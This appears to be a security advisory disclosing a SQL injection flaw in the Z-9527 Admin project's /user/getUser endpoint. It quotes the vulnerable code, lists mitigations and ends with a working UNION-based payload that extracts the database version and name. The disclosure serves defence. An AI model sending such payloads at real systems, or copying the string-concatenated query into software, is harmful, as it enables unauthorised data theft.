

# SQL Injection Vulnerability in Z-9527 Admin

> **Software and Affected Version:** [Z-9527 Admin](https://github.com/z-9527/admin) ≤ commit 72aaf2d

## Vulnerability Files

-   `server/routes/user.js`
-   `server/controller/user.js`

## Description

A SQL injection vulnerability exists in [Z-9527 Admin](https://github.com/z-9527/admin) ≤ commit 72aaf2d at the `/user/getUser` endpoint, where the `username` query parameter is concatenated directly into a SQL statement without sanitization or parameterization. As a result, authenticated attackers can perform UNION-based SQL injection attacks, bypass the original query logic, and retrieve sensitive information from the database. The leaked data is reflected directly in the JSON response fields. Mitigations include replacing string concatenation with parameterized queries or prepared statements, implementing strict input validation and sanitization for all user-supplied parameters, applying the principle of least privilege to database connections, deploying web application firewalls with SQL injection detection rules, and conducting comprehensive security audits of all database query construction patterns across the codebase.

## Code Analysis

In `server/routes/user.js`:

```js
router.get('/getUser', async function (ctx, next) {
    const res = await getUser(ctx.query);
    handleRes(ctx, next, res);
});
```

In `server/controller/user.js`:

```js
const getUser = async (param) => {
    const { id, username } = param;
    if (!id && !username) {
        return new ErrorModel({
            message: '参数异常',
            httpCode: 400
        });
    }
    let sql = `select ${usersColumns.join(',')} from users where `;
    if (id) {
        sql += `id=${id}`;
    } else if (username) {
        sql += `username='${username}'`;
    }
    const res = await exec(sql);
    return new SuccessModel({
        data: res[0]
    });
};
```

The user input is directly concatenated into the SQL statement.

## Proof of Concept

Sending a request to `/user/getUser` with the `username` parameter set to the following payload allows for the extraction of the database version and the current database name:

```plain
' and 0=1 UNION SELECT 1,2,3,4,5,6,7,8,9,10,VERSION(),DATABASE() --
```


